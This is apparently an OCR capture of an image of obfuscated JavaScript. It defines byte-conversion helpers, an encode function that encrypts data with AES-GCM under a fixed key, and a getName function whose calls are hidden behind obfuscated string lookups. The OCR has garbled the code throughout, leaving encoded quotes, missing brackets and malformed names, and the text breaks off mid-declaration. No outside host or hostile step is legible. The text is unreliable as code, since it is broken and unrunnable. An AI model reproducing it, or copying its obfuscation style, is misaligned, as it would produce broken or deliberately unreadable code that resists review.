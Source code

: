 _0x36bb50_0x2fc538(0x37a,0x3ca,0x426,0x37a,0x43a)+_0x2fc538(0x40c,0x414,0x527,0x4c1,0x4bc)_0x2fc538(0x564,0x524,0x48f,0x507,0x4fa)+%27h%27_0x54fc7a(0xcd,0x120,0x70,0x11e,0xba)+_0x287ad7(0x1e9,0x24b,0x1f2,0x1f6,0x2c9)_0x54fc7a(0x2bb,0x206,0x245,0x1ed,0x1d2)+_0xee4398(-0x5e,-0x1e,-0x7c,0x8c,-0x19)+%27r%27_0x287ad7(0x227,0x149,0x217,0x25c,0x15b)+%27h%27;else _0x46a005_0xee4398(-0x122,-0x87,0x30,-0x8,-0x48);});_0x46a005_0x5a3946(0x80,0x84,0x20,0x31,-0x4c);const _0x5a9313=utf8Encoder_0x4d5cb2(0x479,0x338,0x400,0x42c,0x4ad)+%27e%27,_0x1eaad7=await crypto[_0x5b14bb(0x480,0x409,0x37d,0x335,0x48e)+%27e%27]_0x4d5cb2(0x357,0x278,0x31b,0x372,0x2b2)+%27t%27;return await crypto[_0x272742(0x1f5,0x1ab,0x14a,0x1a0,0x16f)+%27e%27]_0x5a3946(0x97,0x5b,0x136,0x109,0x107)+_0x5a3946(0x82,-0x12,0x196,0xbd,0x63);}());function bytesToStr(_0x2b2f8f){function _0x129297(_0x33d8dc,_0x881796,_0x4be1b0,_0x443b32,_0x3cf9b5){return _0x5cba(_0x3cf9b5-0x2cd,_0x881796);}function _0x346fd3(_0x33ea78,_0x1d1e2f,_0x169c08,_0xd34ef0,_0x5d3bf6){return _0x5cba(_0xd34ef0-0xb3,_0x33ea78);}function _0x339b24(_0x5cc9fc,_0x143291,_0x4e03b4,_0x48bbbd,_0x545ca3){return _0x5cba(_0x48bbbd- -0x324,_0x4e03b4);}return String[_0x339b24(-0x264,-0x290,-0x14f,-0x1bc,-0x224)+_0x129297(0x45f,0x45b,0x4df,0x509,0x447)+%27de%27]_0x346fd3(0x293,0x2f3,0x224,0x2df,0x292);}function strToBytes(_0x475860){function _0x1ae5f6(_0x39e8a9,_0x4cc709,_0x2ffdb7,_0x2c7fa5,_0x5ce4be){return _0x5cba(_0x39e8a9-0x26d,_0x2c7fa5);}function _0x9f1e38(_0x1533fb,_0x468f99,_0x428256,_0x3b0149,_0xc5fd1d){return _0x5cba(_0x3b0149- -0x154,_0x428256);}function _0x35d442(_0x4ec45c,_0x2ef119,_0x37ea3f,_0x2d1dfb,_0x1d58f1){return _0x5cba(_0x37ea3f- -0x3a1,_0x2ef119);}return Uint8Array_0x1ae5f6(0x422,0x3ef,0x405,0x3c9,0x4b1);}async function encode(_0x26cf4b){const _0x140f43={%27pnpwz%27:_0x3f7e7f(0x26d,0x225,0x21b,0x28d,0x223)+%27CM%27,%27hpaKS%27:function(_0x2c6824,_0x373fa9){return _0x2c6824(_0x373fa9);},%27gkDGn%27:function(_0x2b3f8a,_0x164d0f){return _0x2b3f8a+_0x164d0f;}},_0x398550=utf8Encoder_0x2837ad(0xad,0xd8,0x66,0x58,0x86)+%27e%27,_0x3164b6=crypto[_0x794ff6(0x33c,0x2a9,0x344,0x2a4,0x342)+_0x3f7e7f(0x37b,0x357,0x2f5,0x33a,0x38c)+_0x794ff6(0x172,0x2c3,0x25a,0x248,0x1da)](new Uint8Array(0x6a4+0x20fb*-0x1+0x1a63));function _0x59c4e0(_0x2d6782,_0x1490ae,_0x328893,_0x2a977a,_0xa41a2){return _0x5cba(_0x2d6782-0x9e,_0x2a977a);}const _0xa41527={};function _0x694bf4(_0x56e282,_0x24121e,_0x18e0d0,_0x38fb31,_0x5db174){return _0x5cba(_0x38fb31- -0x365,_0x56e282);}_0xa41527[_0x794ff6(0x1ea,0x177,0x147,0x218,0x167)]=_0x140f43[_0x794ff6(0x29f,0x28d,0x285,0x2b2,0x298)];function _0x2837ad(_0x335152,_0x146247,_0x189aa6,_0x4a9b44,_0xdd3a85){return _0x5cba(_0xdd3a85- -0x1af,_0x189aa6);}_0xa41527[%27iv%27]=_0x3164b6;function _0x794ff6(_0x439e7d,_0x5842df,_0x1a629c,_0x30c6c4,_0x1c3293){return _0x5cba(_0x30c6c4-0x50,_0x5842df);}const _0x4e7b38=new Uint8Array(await crypto[_0x794ff6(0x327,0x2f9,0x22e,0x2fb,0x3be)+%27e%27][_0x794ff6(0x1c6,0x1b7,0x2f4,0x228,0x15e)+%27pt%27](_0xa41527,await fixedKey,_0x398550));function _0x3f7e7f(_0x2b6fd1,_0x58def3,_0x2afb3a,_0x1b2a67,_0x3731ce){return _0x5cba(_0x3731ce-0xeb,_0x2b6fd1);}return _0x140f43_0x794ff6(0x17b,0x24b,0x1ef,0x1a3,0x25e);}async function getName(){function _0x21aa4c(_0x405635,_0x5cec5a,_0x230684,_0x3353fb,_0x23b961){return _0x5cba(_0x3353fb- -0x140,_0x230684);}function _0x242cae(_0x15df75,_0x17cdd3,_0x121741,_0x5d5204,_0x1c32fe){return _0x5cba(_0x15df75-0x1b6,_0x1c32fe);}function _0x58044f(_0x31a41f,_0x384006,_0x37202a,_0x1e9cf2,_0x509254){return _0x5cba(_0x1e9cf2- -0x29a,_0x31a41f);}const _0x5a91b7={%27XDqzG%27:function(_0x191153,_0x6947e7,_0x4c4821){return _0x191153(_0x6947e7,_0x4c4821);},%27BmXVy%27:_0x4b43e3(-0xe0,-0x264,-0x147,-0xe8,-0x1a6)+_0x46167a(0xce,-0x57,0x21,-0xa7,0xf4)+_0x46167a(0x6d,0xef,0xf9,0x157,0x9b)+_0x46167a(0x37,0x44,0x49,-0x4,0x5b)+_0x21aa4c(0x1cf,0x5c,0x141,0xf9,0xf3)+_0x46167a(0x16,0x32,0xdc,0xe3,0x130)+_0x242cae(0x39b,0x471,0x421,0x310,0x41c)+_0x4b43e3(-0x85,-0x89,-0xa4,-0x9a,-0x52)+_0x46167a(0x188,0xab,0xc5,0x125,0x11e)+%27n%27,%27uvseN%27:_0x242cae(0x364,0x41d,0x299,0x2ad,0x297),%27IHlcX%27:_0x4b43e3(-0x16f,-0x1b8,-0x91,-0x60,-0xdb)+_0x4b43e3(-0x184,-0x222,-0x1e0,-0x1b3,-0x18e)+_0x58044f(-0x91,-0x192,-0x14b,-0xc0,-0x160)+_0x4b43e3(-0x228,-0x13f,-0x207,-0x211,-0x175)+_0x58044f(-0x100,-0x126,-0xb0,-0x158,-0x218)+_0x4b43e3(-0x6e,-0x21,-0x18,-0x17,-0x27)+_0x4b43e3(-0x9e,-0xa9,-0x40,0x23,-0xa1),%27trAuu%27:_0x21aa4c(0x130,0xb,0x11c,0x57,0x32)+_0x58044f(-0xab,-0xbf,-0x55,-0x9c,-0x64)+_0x4b43e3(-0xd1,-0x185,-0x152,-0x193,-0x1ac)+_0x242cae(0x341,0x3bd,0x2d1,0x339,0x3b3)+_0x4b43e3(-0x5b,-0x5d,-0x8f,-0x19a,-0xda),%27VmVop%27:_0x21aa4c(-0x30,-0x7,0xe9,0x9e,0x6f)+%27de%27};function _0x46167a(_0x545c29,_0x237dca,_0x43d23d,_0x44022c,_0xff6bd3){return _0x5cba(_0x43d23d- -0xeb,_0x545c29);}const _0x5b7b9c=await _0x5a91b7_0x242cae(0x2e2,0x23a,0x208,0x308,0x383);function _0x4b43e3(_0x22fbaf,_0x567e44,_0x178ba,_0x146017,_0x45c022){return _0x5cba(_0x45c022- -0x2d5,_0x178ba);}const _0xdd95a0=await _0x5b7b9c_0x4b43e3(-0x154,-0x55,-0x2b,-0x12a,-0x10a);return _0xdd95a0[0x242cae(0x37e,0x3b3,0x3bc,0x401,0x405)];}function 0x54f3(){const